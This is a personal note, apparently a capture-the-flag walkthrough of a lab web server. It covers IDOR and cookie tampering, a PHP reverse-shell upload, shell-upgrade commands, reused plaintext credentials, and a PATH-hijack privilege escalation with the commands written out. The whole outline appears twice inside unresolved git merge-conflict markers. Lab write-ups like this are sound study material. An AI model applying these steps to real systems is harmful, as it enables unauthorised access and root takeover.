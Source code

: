 <<<<<<< HEAD
- nmap scan:
	- 22: ssh
		- no vulns
		- OpenSSH 7.6p1
	- 80: http
		- Apache httpd 2.4.29

- website
	- simple no on-eye input fields
	-  gobuster
		-  returns nothing
	-  burp suite
		-  login page discoved
		-  try to log in with creds from previous box
			-  `admin:MEGACORP_4dm1n!!`
			-  `id=1`
			-  get's us to administration page
		-  another possible id/username under IDOR
			-  `id=4: john`
			-  `id=13 peter`
			-  `id=23 rafol`
			-  `id=30 superadmin`
				-  `Cookie: user=86575; role=super admin`

- foothold
	- upload php reverse shell from superadmin
	- find where the files got uploaded
		- fuzz with [[dirsearch]] → in /uploads
	- `curl http://<IP>/uploads/<file_name>`
		- → get shell
		- upgrade:	
		```
		SHELL=/bin/bash script -q /dev/null
		ctrl+z
		stty raw -echo
		fg
		reset
		xterm
		```
	- find user flag

- privilege escalation (part1- www-data → robert)
	- `sudo -l` → nothing
	- find creds for the user running the webapp
		- search file structure in `/var/ww/...`
		- `db.php` file in `/var/www/html/cdn-cgi/login`
		- default creds: `robert:M3g4C0rpUs3r!`

- privilege escalation (part2 robert → root)
		- `su robert`
		- `id` - got more info about robert
			- find all files that belong to group that robert is in `find / -type f -group bugtracker` → /usr/bin/bugtracker binary
			- it runs cat on some file
		- → create bogus cat in PATH  
		```
		export PATH=/tmp:$PATH
		cd /tmp/
		echo 'bin/sh' > cat
		chmod +x cat
		```
		- run the binary again → you get shell
=======
- nmap scan:
	- 22: ssh
		- no vulns
		- OpenSSH 7.6p1
	- 80: http
		- Apache httpd 2.4.29

- website
	- simple no on-eye input fields
	-  gobuster
		-  returns nothing
	-  burp suite
		-  login page discoved
		-  try to log in with creds from previous box
			-  `admin:MEGACORP_4dm1n!!`
			-  `id=1`
			-  get's us to administration page
		-  another possible id/username under IDOR
			-  `id=4: john`
			-  `id=13 peter`
			-  `id=23 rafol`
			-  `id=30 superadmin`
				-  `Cookie: user=86575; role=super admin`

- foothold
	- upload php reverse shell from superadmin
	- find where the files got uploaded
		- fuzz with [[dirsearch]] → in /uploads
	- `curl http://<IP>/uploads/<file_name>`
		- → get shell
		- upgrade:	
		```
		SHELL=/bin/bash script -q /dev/null
		ctrl+z
		stty raw -echo
		fg
		reset
		xterm
		```
	- find user flag

- privilege escalation (part1- www-data → robert)
	- `sudo -l` → nothing
	- find creds for the user running the webapp
		- search file structure in `/var/ww/...`
		- `db.php` file in `/var/www/html/cdn-cgi/login`
		- default creds: `robert:M3g4C0rpUs3r!`

- privilege escalation (part2 robert → root)
		- `su robert`
		- `id` - got more info about robert
			- find all files that belong to group that robert is in `find / -type f -group bugtracker` → /usr/bin/bugtracker binary
			- it runs cat on some file
		- → create bogus cat in PATH  
		```
		export PATH=/tmp:$PATH
		cd /tmp/
		echo 'bin/sh' > cat
		chmod +x cat
		```
		- run the binary again → you get shell
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
			- find the flag
